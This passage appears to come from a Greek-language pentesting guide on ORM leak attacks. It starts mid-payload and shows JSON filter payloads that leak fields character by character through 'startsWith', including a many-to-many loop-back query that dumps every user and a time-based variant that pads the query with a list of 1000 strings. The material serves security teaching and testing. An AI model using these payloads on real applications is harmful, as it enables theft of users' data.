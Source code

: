 ```json
"published": false,
"{articleFieldToLeak}": {
"startsWith": "{testStartsWith}"
}
}
}
}
}
}
}
```
Είναι επίσης δυνατό να διαρρεύσουν όλοι οι χρήστες εκμεταλλευόμενοι κάποιες σχέσεις many-to-many με loop back:
```json
{
"query": {
"createdBy": {
"departments": {
"some": {
"employees": {
"some": {
"departments": {
"some": {
"employees": {
"some": {
"departments": {
"some": {
"employees": {
"some": {
"{fieldToLeak}": {
"startsWith": "{testStartsWith}"
}
}
}
}
}
}
}
}
}
}
}
}
}
}
}
}
```
* **Error/Timed queries**: Στην αρχική ανάρτηση μπορείτε να διαβάσετε ένα πολύ εκτενές σύνολο δοκιμών που πραγματοποιήθηκαν προκειμένου να βρεθεί το βέλτιστο payload για να διαρρεύσει πληροφορίες με ένα payload βασισμένο στον χρόνο. Αυτό είναι:
```json
{
"OR": [
{
"NOT": {ORM_LEAK}
},
{CONTAINS_LIST}
]
}
```
Όπου το `{CONTAINS_LIST}` είναι μια λίστα με 1000 συμβολοσειρές για να διασφαλιστεί ότι η **απάντηση καθυστερεί όταν βρεθεί η σωστή διαρροή.**
